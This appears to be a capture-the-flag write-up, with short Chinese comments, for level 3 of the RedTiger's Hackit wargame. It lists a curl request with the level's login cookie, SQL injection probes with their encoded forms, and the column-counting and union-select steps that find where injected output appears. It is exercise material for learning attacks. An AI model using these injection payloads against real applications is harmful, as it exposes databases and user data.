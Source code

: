 ## level3

```
curl "http://redtiger.labs.overthewire.org/level3.php" -H "Cookie: level3login=feed_your_cat_before_your_cat_feeds_you" 
```


```
Admin'
MDQyMjExMDE0MTgyMTQwMTc0
Admin' and '1'='2
MDQyMjExMDE0MTgyMTQwMTc0MjIzMDg5MjA0MTAxMjUzMjE5MDI0MjMyMDY2MDY2MjM3
Admin' and '1'='1
MDQyMjExMDE0MTgyMTQwMTc0MjIzMDg5MjA0MTAxMjUzMjE5MDI0MjMyMDY2MDY2MjM4
```

```
Admin' order by 8#
MDQyMjExMDE0MTgyMTQwMTc0MjIzMDg3MjA4MTAxMTg0MTQyMDA5MTczMDA2MDY5MjMxMDY2 # 报错
Admin' order by 7#
MDQyMjExMDE0MTgyMTQwMTc0MjIzMDg3MjA4MTAxMTg0MTQyMDA5MTczMDA2MDY5MjMyMDY2 # 不报错
```

显示位还显示的Admin的信息，那找个数据库中没有的显示。
```
Admin' union select 1,2,3,4,5,6,7#
MDQyMjExMDE0MTgyMTQwMTc0MjIzMDc3MjA0MTA0MTc4MTQ2MDA5MTg4MDI2MDA5MTg2MDAyMjMzMDc0MDYwMTk5MjM3MjE5MDg3MjQ2MTU0MjA4MTc2MDk2MTMxMjIwMDUxMDU5
```

```
max' union select 1,2,3,4,5,6,7#
MDA2MjE0MDI3MjQ4MTk0MjUyMTQ1MDgxMjA1MTExMjUzMTQzMDc2MTYzMDI2MDA2MTcxMDY1MTcyMDcwMDYzMTk5MjM2MjE5MDgwMjQ2MTU1MjA4MTc5MDk2MTMwMjEx
```
得到的回显位为：2,4,5,6,7。

	Show userdetails: <br>
					<table style="border-collapse:collapse; border:1px solid black;">
						<tr>
							<td>Username: </td>
							<td>2</td>
						</tr>
						<tr>
							<td>First name: </td>
							<td>6</td>
						</tr>
						<tr>
							<td>Name: </td>
							<td>7</td>
						</tr>
						<tr>
							<td>ICQ: </td>
							<td>5</td>
						</tr>
						<tr>
							<td>Email: </td>
							<td>4</td>
						</tr>
					</table>	
				<br><br><br>
